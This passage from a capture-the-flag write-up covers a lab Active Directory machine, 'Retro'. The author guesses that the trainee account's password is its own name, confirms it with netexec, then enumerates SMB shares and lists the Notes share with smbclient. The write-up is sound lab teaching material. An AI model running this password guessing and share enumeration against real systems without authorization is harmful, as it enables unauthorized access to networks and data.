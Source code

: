 There’s a trainee user, which is likely what the note was referring to.

I’ll also note the RETRO\BANKING$ account, which looks like a machine account.

## Auth as BANKING$

### Auth as Trainee

Given the note, it seems reasonable that the password for the trainee account be something simple and potentially guessable. I’ll take a guess that it might be the account name, and it works:

```

oxdf@hacky$ netexec smb dc.retro.vl -u trainee -p trainee
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [+] retro.vl\trainee:trainee 

```

### Authenticated SMB Enumeration

The trainee account is able to read the `Notes` share:

```

oxdf@hacky$ netexec smb dc.retro.vl -u trainee -p trainee --shares
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.44   445    DC               [+] retro.vl\trainee:trainee 
SMB         10.129.234.44   445    DC               [*] Enumerated shares
SMB         10.129.234.44   445    DC               Share           Permissions     Remark
SMB         10.129.234.44   445    DC               -----           -----------     ------
SMB         10.129.234.44   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.44   445    DC               C$                              Default share
SMB         10.129.234.44   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.44   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.44   445    DC               Notes           READ            
SMB         10.129.234.44   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.234.44   445    DC               Trainees        READ  

```

The share contains two files:

```

oxdf@hacky$ smbclient //dc.retro.vl/Notes -U 'trainee%trainee'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  9 03:12:49 2025
  ..                                DHS        0  Wed Apr  9 03:16:04 2025
  ToDo.txt                            A      248  Sun Jul 23 22:05:56 2023
  user.txt                            A       32  Wed Apr  9 03:13:01 2025

                4659711 blocks of size 4096. 1279897 blocks available

```
